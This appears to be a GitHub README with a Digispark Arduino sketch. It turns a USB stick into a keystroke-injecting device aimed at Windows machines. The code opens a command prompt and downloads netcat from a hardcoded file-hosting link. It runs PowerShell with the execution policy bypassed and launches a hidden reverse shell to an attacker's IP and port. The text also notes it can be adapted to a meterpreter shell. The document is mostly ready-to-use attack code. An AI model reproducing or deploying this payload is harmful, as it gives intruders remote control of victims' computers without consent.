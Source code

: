 # Digispark Arduino Reverse Shell for windows 10

### Although designed for windows 10 this script will work for windows vista onwards.

## A digispark arduino script to pop a reverse hidden shell to a specified ip address using netcat.

The listening machine will need to be running before the script is run.

This script can be easily modified to pop a reverse meterpreter shell instead of netcat.

link to download netcat has been hardcoded but can be replaced if wanted. To do this change the url to a direct download url of nc64.exe.

This script has been optimised to run on the digisparks limited memory requirements.

#### Warning: depending on the model of digispark the onboard led might be on pin 0 instead of 1.

LED Run-status: The LED will blink to state the code has started running. Once the code execution has completed the LED will stay illuminated and thus the device can be unplugged.

replace *IP* and *PORT* with your own values.
```c
#include "DigiKeyboard.h"
/* Init function */
//script created by valkyrix.github.io
void setup()
{//turn LED off while code is running, this means the device is safe to unplug as soon as the LED turns back on
  pinMode(1, OUTPUT); //LED on Model A
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(500);
  digitalWrite(1, LOW);
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd / & mkdir win & cd /win & echo (wget 'https://1fichier.com/?dtc7uqmikl' -OutFile a.exe) > b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("powershell -ExecutionPolicy ByPass -File b.ps1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(50);
  DigiKeyboard.println("START /MIN a.exe IP PORT -e cmd.exe -d & exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
}

/* Unused endless loop */
void loop() {}

```
